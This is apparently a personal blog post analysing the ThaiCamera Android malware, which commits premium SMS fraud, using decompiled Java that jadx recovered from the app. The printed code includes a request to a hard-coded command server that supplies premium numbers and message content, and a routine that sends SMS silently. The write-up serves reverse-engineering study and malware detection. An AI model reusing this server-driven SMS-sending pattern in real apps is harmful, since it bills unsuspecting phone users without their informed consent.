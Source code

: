 ```yaml
---
title: ThaiCamera apk Malware Analysis
date: 2024-03-05 00:00:00 +0530
categories: [Android, Malware]
tags: [android, re, malware]
---
```


In the past year, I got the opportunity to look at various android apks and their pentest reports. I found these quite interesting and wanted to learn more. And to get a grip on the subject I did various courses which could be found online. But courses alone weren't sufficient to deepen my understanding. 

One of my friends suggested Maddie Stone's hands-on session on [Android 101](https://www.ragingrock.com/AndroidAppRE/) and I am blessed that I went ahead with it. It was a delight to work with many apks and understand what are the small nuances made the malicious. 

The first apk was a ThaiCamera.apk which could be doing premium SMS fraud. I did my analysis at start and found a couple of things and finally could prove that the apk was malicious. This was relatively easier to reverse as it was not heavily obfuscated and some of the malicious functionalities were straightforward. 

So, here is my process of analysing this. Please note that this might not be the best pathway or process to identify malwares or malicious activities, but since this was a simple apk, it worked out well for me.  

### Static Analysis

As usual, used jadx-gui to look at the source code and then I opened the manifest file to look for any unwanted permissions that the app was using. 

In that for a camera app, the send sms permission was suspisioucs : 

`<uses-permission android:name="android.permission.SEND_SMS"/>`

Keeping this in mind, I started looking at the classes with intent-filters and/or the ones that can be exported. 
The launcher acticity was `com.cp.camera.Loading` and I started to reverse this. 

```java
<activity android:label="@string/app_name" android:name="com.cp.camera.Loading" android:screenOrientation="portrait">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>

```

![alt text](assets/images/thaicam.png "ThaiCamera")

In the loading class, we can already see some strings suggesting sending of SMS : 

`public static final String SENT_SMS_ACTION = "SENT_HUGE_SMS_ACTION";`
`private String IMEIS;`
`private String imeicontent;`

And a few others getting the device and operator details. 

```
TelephonyManager telManager = (TelephonyManager) getSystemService("phone");
String operator = telManager.getSimOperator();
```

In the oncreate function, we can see that a `loginByPost` is being called with operator as parameter (Operator is what is returned by the getSimOperator() function). 

`getSimOperator()` is a method in the TelephonyManager classused to retrieve the MCC+MNC of the subscriber's network.

```java
    public String loginByPost(String code) {
        String str = Build.VERSION.RELEASE;
        String str2 = Build.MODEL;
        getPhoneNumber();
        getDeviceId();
        try {
            String spec = "http://139.59.107.168:8088/appsharejson?code=" + code;
            URL url = new URL(spec);
            HttpURLConnection urlConnection = (HttpURLConnection) url.openConnection();
            urlConnection.setRequestMethod("POST");
            urlConnection.setReadTimeout(5000);
            urlConnection.setConnectTimeout(5000);
            urlConnection.setDoOutput(true);
            urlConnection.setDoInput(true);
            if (urlConnection.getResponseCode() == 200) {
                InputStream is = urlConnection.getInputStream();
                ByteArrayOutputStream baos = new ByteArrayOutputStream();
                byte[] buffer = new byte[1024];
                while (true) {
                    int len = is.read(buffer);
                    if (len != -1) {
                        baos.write(buffer, 0, len);
                    } else {
                        is.close();
                        baos.close();
                        return new String(baos.toByteArray());
                    }
                }
            } else {
                return "error";
            }
        } catch (Exception e) {
            e.printStackTrace();
            return "error";
        }
    }
```

The `loginByPost` method tries to send a POST request to a website along with the Network Code of the sim. If it is a success, then the response is copied and returned to the `jsonStr` String and the corresponding `service` and `content` are set according to the `imeicontent` object in the json. 

As this is based on the sim Operator (carrier network) of the user, this could mean that the `service` phone number is actually a premium number and the `content` is also something which could trigger the fraud. 

But before going into that part, there is something interesting happening here. 

The function checks the build version of the apk and if it is <23 then the sendMessage() is called but otherwise, the permission is checked. 

Specificlly it checks if this is granted - `android.permission.SEND_SMS`, if not a call to `requestPermissions()` happens. 

When you call `requestPermissions`, a dialog will be shown to the user asking for permission. Once the user responds, the system will invoke the `onRequestPermissionsResult` callback method in the activity, where the user's response is handled.


```java
    public void onRequestPermissionsResult(int requestCode, String[] permissions, int[] grantResults) {
        super.onRequestPermissionsResult(requestCode, permissions, grantResults);
        if (requestCode == 1 && grantResults[0] == 0) {
            if (this.service != null && this.content != null) {
                sendMessage(this.service, this.content);
                return;
            }
            return;
        }
        Toast.makeText(this, "Please allow access！", 1).show();
    }
```

As a result if the permission is granted, sendMessage() function is called with the service and content variables as parameters. If it is not granted by the user, a short notification is displayed, asking `"Please allow access！"`. 

Technically, this might seem to be authorized, as the SMS is being sent only when the user allows the permission "SEND_SMS". But no, this cannot be considered consent due to the fact that the user was not made aware that SMS will be sent to unknwon numbers or if SMS is actually going to be sent. 

Granting the app permission to send message does not mean the user consents to getting billed for sending SMS. 

```java
    public void sendMessage(String mobile, String content) {
        Bundle bundle = new Bundle();
        bundle.putString(FirebaseAnalytics.Param.ITEM_NAME, "SEND_SMS");
        this.mFirebaseAnalytics.logEvent(FirebaseAnalytics.Event.SELECT_CONTENT, bundle);
        Intent itSend = new Intent("SENT_HUGE_SMS_ACTION");
        itSend.putExtras(bundle);
        SmsManager sms = SmsManager.getDefault();
        PendingIntent sentintent = PendingIntent.getBroadcast(this, 0, itSend, 134217728);
        try {
            if (content.length() > 70) {
                List<String> msgs = sms.divideMessage(content);
                for (String msg : msgs) {
                    sms.sendTextMessage(mobile, null, msg, sentintent, null);
                }
                return;
            }
            sms.sendTextMessage(mobile, null, content, sentintent, null);
        } catch (Exception e) {
            SharedPreferences sharedPreferences = getSharedPreferences("videoLibrary", 0);
            SharedPreferences.Editor editor = sharedPreferences.edit();
            editor.putString("videoShare", AppEventsConstants.EVENT_PARAM_VALUE_NO);
            editor.apply();
            e.printStackTrace();
        }
    }
```


Now digging a little more into the important functionality, a new intent with `"SENT_HUGE_SMS_ACTION"`  is created with the `SEND_SMS` extra and text message is sent according to the content retrieved from the `jsonStr` object. 

To summarise, three things are happening here : 

- The camera app is sending SMS messages
- The phone number and content that are being sent are retrieved from an external website (might be premium numbers)
- These happen without the knowledge of the user. 

Hence, we can conclude that Premium SMS fraud is indeed happening via the Camera app. 

Huge thanks to [Maddie Stone](https://twitter.com/maddiestone) for providing quality content helping all of us to get started with Android RE. 


